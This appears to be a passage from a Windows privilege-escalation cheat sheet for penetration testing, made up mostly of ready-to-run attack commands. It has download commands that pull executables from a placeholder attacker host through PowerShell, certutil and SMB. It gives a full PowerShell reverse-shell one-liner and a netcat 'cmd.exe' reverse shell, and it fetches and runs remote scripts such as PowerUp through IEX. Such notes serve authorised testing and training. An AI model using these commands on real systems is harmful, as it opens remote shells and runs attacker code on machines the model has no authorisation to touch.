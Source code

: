 
## File Transfer

```powershell
# PowerShell
IWR -Uri http://<IP>/file.exe -OutFile file.exe
(New-Object Net.WebClient).DownloadFile('http://<IP>/file.exe', 'file.exe')

# Certutil
certutil -urlcache -f http://<IP>/file.exe file.exe

# SMB (from Kali: impacket-smbserver share . -smb2support)
copy \\<ATTACKER_IP>\share\file.exe .
```

---

## Reverse Shells

```powershell
# PowerShell one-liner
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Netcat
nc.exe -e cmd.exe <IP> 4444
```

---

## Automated Tools

- **WinPEAS**: `.\winPEASx64.exe`
- **PowerUp**: `IEX(IWR http://<IP>/PowerUp.ps1 -UseBasicParsing); Invoke-AllChecks`
- **PrivescCheck**: `IEX(IWR http://<IP>/PrivescCheck.ps1); Invoke-PrivescCheck`
- **Seatbelt**: `.\Seatbelt.exe -group=all`
- **Windows Exploit Suggester**: `python windows-exploit-suggester.py --database <date>.xls --systeminfo systeminfo.txt`

---

## Resources

- **PayloadsAllTheThings**: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
- **HackTricks**: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation
- **LOLBAS**: https://lolbas-project.github.io/
- **GTFOBins (Windows)**: https://wadcoms.github.io/
